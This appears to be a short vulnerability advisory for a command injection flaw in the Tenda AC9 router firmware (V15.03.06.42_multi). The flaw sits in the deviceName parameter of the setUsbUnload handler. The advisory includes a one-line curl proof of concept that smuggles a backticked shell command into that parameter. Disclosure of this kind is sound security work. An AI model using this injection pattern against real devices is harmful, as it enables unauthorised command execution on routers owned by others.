



## Tenda AC9 command injection

### Overview

* Vendor: Tenda

* Product: Tenda AC9 
* Version:  V15.03.06.42_multi

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC9/US_AC9V3.0RTL_V15.03.06.42_multi_TD01.zip

### Vulnerability details

Tenda AC9 V15.03.06.42_multi was found to contain a command injection vulnerability in the `formsetUsbUnload` function via the `deviceName` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.





#### PoC

```
curl http://192.168.0.1/goform/setUsbUnload?deviceName=`touch%20/tmp/3.txt`
```


